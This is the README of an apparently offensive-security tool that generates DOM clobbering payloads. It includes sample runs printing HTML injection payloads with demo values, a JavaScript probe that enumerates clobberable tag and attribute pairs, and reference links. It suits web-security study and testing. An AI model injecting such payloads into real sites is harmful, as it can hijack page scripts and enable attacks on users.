 # DOM Clobbering Generator

Full article on [OffensiveWeb](https://www.offensiveweb.com/docs/topics/dom-clobbering/).

## Usage

## Depth 2

```bash
$ python3 generator.py video.lang 'Hello!'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'video.lang'
variable_value = 'Hello!'
depth = 2
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<a id="video" lang="Hello!"></a>
******************** PAYLOAD #2 ********************
<form id="video" lang="Hello!"></form>
******************** PAYLOAD #3 ********************
<form name="video" lang="Hello!"></form>
******************** PAYLOAD #4 ********************
<input id="video" lang="Hello!"></input>
******************** PAYLOAD #5 ********************
<iframe id="video" lang="Hello!"></iframe>
******************** PAYLOAD #6 ********************
<iframe name="video" lang="Hello!"></iframe>
******************** PAYLOAD #7 ********************
<a id="video"></a><a id="video" name="lang" href="a:Hello!"></a>
```

## Depth 4

```bash
$ python3 generator.py music.metadata.sound.max '100%'
********************* INFO **********************
ALLOWED_ELEMENTS = ['a', 'form', 'input', 'iframe']
variable_name = 'music.metadata.sound.max'
variable_value = '100%'
depth = 4
document_scope = False
chrome_required = True
******************** PAYLOAD #1 ********************
<form id="music" name="metadata">
    <input id="sound" max="100%">
</form>
<form id="music">
```

## attributes.json 

```js
const tags = ["a", "abbr", "acronym", "address", "applet", "area", "article", "aside", "audio", "b", "base", "bdi", "bdo", "bgsound", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "data", "datalist", "dd", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "em", "embed", "fieldset", "figcaption", "figure", "font", "footer", "form", "frame", "frameset", "h1", "head", "header", "hgroup", "hr", "html", "i", "iframe", "image", "img", "input", "ins", "kbd", "keygen", "label", "legend", "li", "link", "main", "map", "mark", "marquee", "menu", "menuitem", "meta", "meter", "nav", "nobr", "noembed", "noframes", "noscript", "object", "ol", "optgroup", "option", "output", "p", "param", "picture", "plaintext", "portal", "pre", "progress", "q", "rb", "rp", "rt", "rtc", "ruby", "s", "samp", "script", "section", "select", "slot", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "title", "tr", "track", "tt", "u", "ul", "var", "video", "wbr", "xmp"];
const attributes = ["accept", "accept-charset", "accesskey", "action", "align", "allow", "alt", "async", "autocapitalize", "autocomplete", "autofocus", "autoplay", "background", "bgcolor", "border", "buffered", "capture", "challenge", "charset", "checked", "cite", "class", "code", "codebase", "color", "cols", "colspan", "content", "contenteditable", "contextmenu", "controls", "coords", "crossorigin", "csp", "data", "data-*", "datetime", "decoding", "default", "defer", "dir", "dirname", "disabled", "download", "draggable", "enctype", "enterkeyhint", "for", "form", "formaction", "formenctype", "formmethod", "formnovalidate", "formtarget", "headers", "height", "hidden", "high", "href", "hreflang", "http-equiv", "id", "integrity", "intrinsicsize", "inputmode", "ismap", "itemprop", "keytype", "kind", "label", "lang", "language", "loading", "list", "loop", "low", "manifest", "max", "maxlength", "minlength", "media", "method", "min", "multiple", "muted", "name", "novalidate", "open", "optimum", "pattern", "ping", "placeholder", "playsinline", "poster", "preload", "readonly", "referrerpolicy", "rel", "required", "reversed", "role", "rows", "rowspan", "sandbox", "scope", "scoped", "selected", "shape", "size", "sizes", "slot", "span", "spellcheck", "src", "srcdoc", "srclang", "srcset", "start", "step", "style", "summary", "tabindex", "target", "title", "translate", "type", "usemap", "value", "width", "wrap"];

let valids = {};
tags.forEach(tag => {
    attributes.forEach(attribute => {
        if (attribute != "id" && attribute != "name") {
            document.body.innerHTML = `<${tag} id="xyz" ${attribute}="xanhacks"></${tag}>`;
            try {
                if (eval(`xyz.${attribute} == "xanhacks"`)) {
                    if (!valids.hasOwnProperty(tag)) {
                        valids[tag] = [];
                    }
                    valids[tag].push(attribute);
                }
            } catch (e) {}
        }
    });
});
console.log(valids);
```

## References

- [PortSwigger - DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- JavaScript for hackers - Gareth Heyes (book)
- [OWASP CS - DOM Clobbering](https://cheatsheetseries.owasp.org/cheatsheets/DOM_Clobbering_Prevention_Cheat_Sheet.html)
- [DOM Clobbering - Frederik Braun](https://www.htmhell.dev/adventcalendar/2022/12/)
- [WHATWG - Named access on the Window object](https://html.spec.whatwg.org/multipage/nav-history-apis.html#named-access-on-the-window-object)
- [It’s (DOM) Clobbering Time: Attack Techniques, Prevalence, and Defenses](https://scnps.co/papers/sp23_domclob.pdf)
